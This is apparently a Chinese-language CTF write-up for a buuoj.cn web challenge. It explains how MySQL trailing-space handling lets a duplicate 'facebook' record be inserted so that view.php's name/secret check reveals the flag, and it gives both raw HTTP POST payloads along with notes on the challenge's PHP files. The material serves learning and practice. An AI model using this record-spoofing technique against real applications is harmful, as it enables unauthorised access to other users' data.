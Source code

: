 tags:: [[CTFWEB/SQL]]

- # mysql的缺陷
	- 如果插入的字符串不够长，mysql会在尾部添加空格。
	- 也就是说，如果我们插入一条开头为`facebook`，末尾有很多空格的记录，就可以伪装成facebook的记录
- # view.php的缺陷
	- 如果数据库中有两条名字相同的记录，我们可以通过提交第二条记录的secret绕过检测，读取第一条记录
- # 完整思路
	- 利用mysql的缺陷插入另外一条facebook记录
	- 利用view.php的检查缺陷读取facebook记录，拿到flag
- # payload
	- 第一次
		- ```http
		  POST /add.php HTTP/1.1
		  Host: 05a44e32-81cf-4aef-ba17-faf4ec5f9e3c.node4.buuoj.cn:81
		  Content-Length: 108
		  Cache-Control: max-age=0
		  Upgrade-Insecure-Requests: 1
		  Origin: http://05a44e32-81cf-4aef-ba17-faf4ec5f9e3c.node4.buuoj.cn:81
		  Content-Type: application/x-www-form-urlencoded
		  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.111 Safari/537.36
		  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
		  Referer: http://05a44e32-81cf-4aef-ba17-faf4ec5f9e3c.node4.buuoj.cn:81/add.php
		  Accept-Encoding: gzip, deflate
		  Accept-Language: zh-CN,zh;q=0.9
		  Connection: close
		  
		  name=facebook++++++++++++++++++++++++++++++++++++++++++++++++++++++++&secret=FacebookFacebook1&description=1
		  ```
	- 第二次
		- ```http
		  POST /view.php HTTP/1.1
		  Host: 05a44e32-81cf-4aef-ba17-faf4ec5f9e3c.node4.buuoj.cn:81
		  Content-Length: 38
		  Cache-Control: max-age=0
		  Upgrade-Insecure-Requests: 1
		  Origin: http://05a44e32-81cf-4aef-ba17-faf4ec5f9e3c.node4.buuoj.cn:81
		  Content-Type: application/x-www-form-urlencoded
		  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.111 Safari/537.36
		  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
		  Referer: http://05a44e32-81cf-4aef-ba17-faf4ec5f9e3c.node4.buuoj.cn:81/view.php
		  Accept-Encoding: gzip, deflate
		  Accept-Language: zh-CN,zh;q=0.9
		  Connection: close
		  
		  name=facebook&secret=FacebookFacebook1
		  ```
- # 施工记录
	- `db.php`
		- ```sql
		  INSERT INTO products VALUES('facebook', sha256(....), 'FLAG_HERE');
		  INSERT INTO products VALUES('messenger', sha256(....), ....);
		  INSERT INTO products VALUES('instagram', sha256(....), ....);
		  INSERT INTO products VALUES('whatsapp', sha256(....), ....);
		  INSERT INTO products VALUES('oculus-rift', sha256(....), ....);
		  ```
		- 提示flag在数据库中，数据库查询做了参数化查询，无法SQL注入
		- 需要触发`get_product("facebook")`才可以获取flag
		- `check_name_secret`只要有名字相同的记录就可以绕过
		- 所有函数都没有检查是否是字符串
			- 传入数组会变成`Array`字符串
	- `add.php`
		- 含有`get_product`触发点，但不会返回结果
		- 只要能绕过`get_product`就可以插入同名记录
			- ^^字符串截断？^^
	- `view.php`
		- 含有`get_product`触发点
			- 触发条件是通过`check_name_secret`
	- `index.php`
		- 会显示数据库中的前5个结果
		- facebook在最下面
-
-
-